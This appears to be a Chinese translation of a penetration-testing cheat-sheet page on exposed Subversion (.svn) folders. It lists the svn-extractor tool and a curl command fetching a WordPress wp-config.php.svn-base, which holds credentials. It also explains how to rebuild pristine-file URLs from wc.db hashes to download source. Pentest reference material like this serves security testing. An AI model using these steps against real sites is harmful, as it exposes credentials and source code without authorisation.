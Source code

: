 # Subversion

> Subversion（通常简称为 SVN）是一种集中式的版本控制系统（VCS），在软件开发行业中被广泛使用。Subversion 最初由 CollabNet Inc. 在 2000 年开发，旨在成为 CVS（Concurrent Versions System）的改进版本，并因其稳健性和可靠性而广受欢迎。

## 概述

* [工具](#工具)
* [方法论](#方法论)
* [参考文献](#参考文献)

## 工具

* [anantshri/svn-extractor](https://github.com/anantshri/svn-extractor) - 一个简单的脚本，通过暴露在网络上的 `.SVN` 文件夹提取所有 Web 资源。

    ```powershell
    python svn-extractor.py --url "包含 .svn 的 URL"
    ```

## 方法论

```powershell
curl http://blog.domain.com/.svn/text-base/wp-config.php.svn-base
```

1. 从 `http://server/path_to_vulnerable_site/.svn/wc.db` 下载 SVN 数据库

    ```powershell
    INSERT INTO "NODES" VALUES(1,'trunk/test.txt',0,'trunk',1,'trunk/test.txt',2,'normal',NULL,NULL,'file',X'2829',NULL,'$sha1$945a60e68acc693fcb74abadb588aac1a9135f62',NULL,2,1456056344886288,'bl4de',38,1456056261000000,NULL,NULL);
    ```

2. 下载感兴趣的文件
    * 去掉 `$sha1$` 前缀
    * 添加 `.svn-base` 后缀
    * 使用哈希值的第一个字节作为 `pristine/` 目录的子目录（此处为 `94`）
    * 创建完整路径，即：`http://server/path_to_vulnerable_site/.svn/pristine/94/945a60e68acc693fcb74abadb588aac1a9135f62.svn-base`

## 参考文献

* [SVN 提取器针对 Web 渗透测试人员 - Anant Shrivastava - 2013年3月26日](http://blog.anantshri.info/svn-extractor-for-web-pentesters/)